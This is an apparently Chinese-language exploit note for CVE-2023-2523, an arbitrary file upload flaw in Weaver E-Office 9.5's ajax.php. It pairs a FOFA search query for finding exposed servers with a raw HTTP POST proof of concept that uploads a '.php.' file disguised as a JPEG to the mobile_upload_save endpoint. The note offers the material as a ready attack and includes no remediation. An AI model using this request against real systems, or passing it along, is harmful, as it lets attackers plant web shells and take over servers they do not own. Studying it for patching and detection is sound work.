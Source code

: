 # 泛微OA E-Office 9.5 ajax.php 任意文件上传漏洞 CVE-2023-2523

## 网络测绘

fofa: app="泛微-EOffice"

## POC / EXP

```
POST /Emobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host:
Cache-Control:max-age=0
Upgrade-Insecure-Requests:1
Origin:null  
Content-Type:multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Accept-Encoding:gzip, deflate
Accept-Language:en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection:close

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition:form-data; name="upload_quwan"; filename="1.php."
Content-Type:image/jpeg

test
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```